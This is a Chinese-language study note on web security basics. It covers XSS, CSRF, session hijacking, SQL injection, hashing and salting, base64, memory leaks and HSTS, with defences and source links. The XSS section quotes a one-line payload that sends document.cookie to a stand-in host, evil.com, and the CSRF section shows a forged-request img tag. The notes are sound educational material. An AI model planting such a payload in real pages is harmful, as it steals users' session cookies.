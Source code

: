 ## xss

---

Cross-Site Scripting 往页面注入恶意代码, 可以获得 cookie 等, 例如:

```JavaScript
(new Image()).src="evil.com/cookie?c="+document.cookie
```

[代码来自 mdn](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#会话劫持和XSS)

### 攻击形式

- 存储型
- 反射型
- DOM 型

### 预防方法

- 输入过滤
- 纯前端渲染
- 转义 HTML
- 注意 DOM API 的使用
- Content Security Policy
- 内容长度控制

> [来源](https://tech.meituan.com/2018/09/27/fe-security.html)

## csrf

---

cross-site request forgery, 跨站请求伪造, 俗话说就是盗用身份, 以用户名义发送恶意请求

- 登录网站 A, 生成 cookie
- 在 cookie 没有过期的时间访问危险网站 B
- 网站使用你的 cookie 发送请求, 例如`<img src="bank.com/dosomething">`

### 防御手段

- cookie hashing
- 验证码
- token, 就是隐藏一个 token, 提交时要带上它, 其实这些防爬虫也用

> [来源](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

## 会话劫持

---

执行中间人攻击, 例如污染中间链路设备, 可以更改 HTTP 内容, 污染 dns 解析等

### 解决方案

- csp, 指定每种资源的 URL 白名单规则

- 迁移到 https 上

> [来源](https://juejin.im/entry/5bcec8e2518825102423e391)

## sql 注入

---

登录注册的时候改变数据库

> [来源](https://www.jianshu.com/p/078df7a35671)

## 常用编码

---

### md5

输入不定长度信息, 输出 128 bits 16 字节的算法, 如果要找到相同的 md5 码需要计算 2^64 次

- [**加盐**](https://blog.csdn.net/blade2001/article/details/6341078)
  - 注册时, 密码和一个随机的 salt 值字符串连接然后 md5 散列
  - 登录时, 密码和之前分配的 salt 连接然后 md5 散列, 看两个哈希值是否一致
  - 可以防止通过哈希值利用 md5 散列值字典找到密码
  - 可以防止拖库后用彩虹表反推出来

> [来源](https://zh.wikipedia.org/wiki/MD5)

> [加盐密码保存的最通用方法是？](https://www.zhihu.com/question/20299384)

### 彩虹表

能够反推 hash 值的一种算法

> [来源](https://www.jianshu.com/p/732d9d960411)

### base64

把 3 个 8 位字节（3x8=24）转化为 4 个 6 位的字节（4x6=24）, 若是最后不足三个字节用 0 填充, 所以会有`=`号

可用来图片编码

> [来源](https://www.jianshu.com/p/f39a54826de5)

### hash

- SHA-1 哈希值, 生成 20 字节的消息摘要

> [来源](https://zhuanlan.zhihu.com/p/37165658)

### UUID

通用唯一标识码, 重复的几率接近为 0

> [来源](https://zh.wikipedia.org/wiki/%E9%80%9A%E7%94%A8%E5%94%AF%E4%B8%80%E8%AF%86%E5%88%AB%E7%A0%81)

### JWT

## 内存泄漏

---

指变量占用内存却没有回收, 有以下几种情况

- 在函数内声明了全局变量
- 计时器与回调函数中的对象引用
- DOM 节点存储

> [来源](https://github.com/wengjq/Blog/issues/1)

### 检测内存泄漏的方法

- Memory, 可以拍摄快照
- record heap allocation
- chrome 的任务管理器

> [来源](https://juejin.im/post/5b20d9456fb9a01e554c112c)

> [JS 内存泄漏排查方法](https://cloud.tencent.com/developer/article/1444558)

## HSTS

HTTP 严格传输安全(HTTP Strict Transport Security), 让浏览器强制使用 HTTPS 来与网站通信

- 当用户使用 http 访问网站时, 浏览器应自动将 http 改为 https(前提是有过一次连接)
- 如果服务器的 ca 证书失效, 用户不能忽视浏览器警告访问网站

> [来源](https://zh.wikipedia.org/wiki/HTTP%E4%B8%A5%E6%A0%BC%E4%BC%A0%E8%BE%93%E5%AE%89%E5%85%A8)

